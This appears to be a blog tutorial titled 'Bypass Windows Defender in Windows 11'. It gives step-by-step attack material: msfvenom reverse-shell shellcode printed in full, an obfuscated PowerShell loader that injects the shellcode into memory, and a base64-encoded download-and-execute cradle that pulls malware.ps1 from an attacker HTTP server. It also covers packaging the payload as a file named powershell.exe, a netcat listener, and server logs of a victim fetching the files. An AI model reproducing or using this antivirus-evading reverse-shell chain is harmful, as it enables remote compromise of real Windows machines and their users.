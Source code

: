 ```yaml
---
title: Bypass Windows Defender in Windows 11
tags: [windows, defender]
style: fill
color: secondary
description: Bypass Windows Defender in Windows 11.
---
```

### System information about Windows Defender.
![0](../assets/img/bypass+windows+defender/0.png)

### Using reflection in PowerShell to invoke Win32 API calls from remote PowerShell file invoked by Elixir’s interactive shell.

- Insert shellcode from the buf variable in the output from the following msfvenom payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip addr> LPORT=<port> -i 2 -e cmd/powershell_base64 -f ps1
```

my output:

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=9001 -i 2 -e cmd/powershell_base64 -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 2 iterations of cmd/powershell_base64
cmd/powershell_base64 succeeded with size 460 (iteration=0)
cmd/powershell_base64 succeeded with size 460 (iteration=1)
cmd/powershell_base64 chosen with final size 460
Payload size: 460 bytes
Final size of ps1 file: 2260 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x23,0x29,0xc0,0xa8,0x1,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```

### The PowerShell Script.

- Remove 'your_payload' and paste your payload instead.

```powershell
function potatoes {
Param ($cherries, $pineapple)
$tomatoes = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$turnips=@()
$tomatoes.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$turnips+=$_}}
return $turnips[0].Invoke($null, @(($tomatoes.GetMethod('GetModuleHandle')).Invoke($null, @($cherries)), $pineapple))
}
function apples {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
$cucumbers = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll VirtualAlloc), (apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]] $buf = <your_payload>
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $cucumbers, $buf.length)
$parsnips =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll CreateThread), (apples @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$cucumbers,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll WaitForSingleObject), (apples @([IntPtr], [Int32]) ([Int]))).Invoke($parsnips, 0xFFFFFFFF)
```

- Host the above in a PowerShell and name it as malware.ps1

### Execution.

- If you execute the following command in cmd will give you reverse shell.

```powershell
echo IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1') | powershell -noprofile -
```

- Instead of that will encode this command and convert the PowerShell script to executable file.
- encode the command by [CyberChef](https://gchq.github.io/CyberChef/){:target="_blank" rel="noopener"}

![1](../assets/img/bypass+windows+defender/1.png)

```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1')
```

- encoded in base64

```powershell
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ==
```

- Convert PowerShell to exe file.

[PS2EXE](https://ps2exe.azurewebsites.net/){:target="_blank" rel="noopener"}

```powershell
$A =[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ=="))
powershell -noprofile $A
```

![2](../assets/img/bypass+windows+defender/2.png)

- give a file name and click on Create EXE.

- Create a listener.

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ rlwrap -r -f . nc -lnvp 9001
Listening on 0.0.0.0 9001
```

### Deliver the file to victim Machin.

```powershell
┌──(kali㉿kali)-[/tmp/win11]
└─$ ls -lah
total 28K
drwxr-xr-x  2 kali kali 4.0K Dec  4 11:12 .
drwxrwxrwt 20 root root 4.0K Dec  4 11:09 ..
-rw-r--r--  1 kali kali 4.2K Dec  4 09:12 malware.ps1
-rw-r--r--  1 kali kali  12K Dec  4 11:03 powershell.exe
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
```

- Download the malware to the victim.

![3](../assets/img/bypass+windows+defender/3.png)

- execute the file
- you should see both powershell.exe and malware.ps1 triggered

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
192.168.1.140 - - [04/Dec/2021 11:14:20] "GET /powershell.exe HTTP/1.1" 200 -
192.168.1.140 - - [04/Dec/2021 11:14:48] "GET /malware.ps1 HTTP/1.1" 200 -
```

### Get Revers Sell.

![4](../assets/img/bypass+windows+defender/4.png)

This should bypass Windows Defender as of 04-12-2021